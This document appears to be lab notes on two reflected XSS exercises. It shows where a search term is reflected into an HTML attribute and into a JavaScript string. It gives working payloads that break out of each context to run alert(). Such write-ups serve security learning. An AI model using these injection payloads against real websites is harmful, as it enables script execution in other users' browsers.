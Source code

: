 # Reflected XSS into attribute with angle brackets HTML encoded

### Scenario

We input a unique string like "uniquetest" and we search it in the "inspect element tab of the web browser".

```html
<h1>0 search results for 'uniquetest'</h1>
```

```html
<input type="text" placeholder="Search the blog..." name="search" value="uniquetest">
```

We notice that our string populated two element of the DOM.
One is a h1 string, **another is inside an attribute of a tag**.

### Exploit

So, we can break the tag using something like this:

```html
uniquetest" onmouseover=alert()
```

which will transform the "input tag" as following:
```html
<input type="text" placeholder="Search the blog..." name="search" value="uniquetest" onmouseover=alert()>
```

So, when we will mouse over the input element (a search bar), we will exploit the XSS vulnerability.

# Reflected XSS into a JS string with angle brackets HTML encoded

### Scenario

By inspecting the web page our inserted string is shown in three different position:

```html
<h1>0 search results for 'uniquetest'</h1>
```

```html
<img src="/resources/images/tracker.gif?searchTerms=uniquetest">
```

```javascript
var searchTerms = 'uniquetest';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```

We will focus on the JS code.

This JS code assign our string to a variable and then uses this variable in a string concatenation.
Our input, as you can see above, is URL encoded before the string concatenation.

### Exploit

We can try to exploit the JS code where the variable assignment happens:

```
uniquetest'; alert(); let myvar = 'test
```

It will appear in the JS code as following:

```javascript
var searchTerms = 'uniquetest'; alert(); let myvar = 'test';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
```
